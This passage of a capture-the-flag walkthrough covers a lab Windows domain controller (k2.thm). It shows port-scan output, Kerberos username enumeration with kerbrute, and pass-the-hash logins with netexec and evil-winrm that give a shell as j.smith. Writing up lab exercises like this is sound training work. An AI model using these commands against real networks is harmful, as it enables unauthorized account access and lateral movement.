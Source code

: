 ```console
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49668/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
49792/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: K2ROOTDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

We obtain the hostname and domain name from the scan, adding them to our hosts file.

```console
10.10.70.89 K2ROOTDC k2.thm K2RootDC.k2.thm
```
{: file="/etc/hosts" }

### Shell as j.smith

From the previous target, we already have some usernames. Testing them against **Kerberos**, we find that the username `j.smith` is also valid for this target.

```console
$ cat valid_usernames.txt
r.bud
j.bold
j.smith

$ kerbrute userenum --dc K2ROOTDC -d k2.thm valid_usernames.txt
...
2024/09/28 04:53:03 >  [+] VALID USERNAME:       j.smith@k2.thm
```

Testing the hash we obtained for the **Administrator** earlier, we find that it also works for the `j.smith` user, allowing us to use it with **WinRM** to obtain a shell.

```console
$ nxc smb k2rootdc.k2.thm -u 'j.smith' -H 9545[REDACTED]b32f
SMB         10.10.70.89     445    K2ROOTDC         [*] Windows 10.0 Build 17763 x64 (name:K2ROOTDC) (domain:k2.thm) (signing:True) (SMBv1:False)
SMB         10.10.70.89     445    K2ROOTDC         [+] k2.thm\j.smith:9545[REDACTED]b32f

$ nxc winrm k2rootdc.k2.thm -u 'j.smith' -H 9545[REDACTED]b32f
SMB         10.10.70.89     445    K2ROOTDC         [*] Windows 10.0 Build 17763 (name:K2ROOTDC) (domain:k2.thm)
WINRM       10.10.70.89     5985   K2ROOTDC         [+] k2.thm\j.smith:9545[REDACTED]b32f (Pwn3d!)

$ evil-winrm -i k2rootdc.k2.thm -u 'j.smith' -H 9545[REDACTED]b32f
```

### Shell as o.armstrong

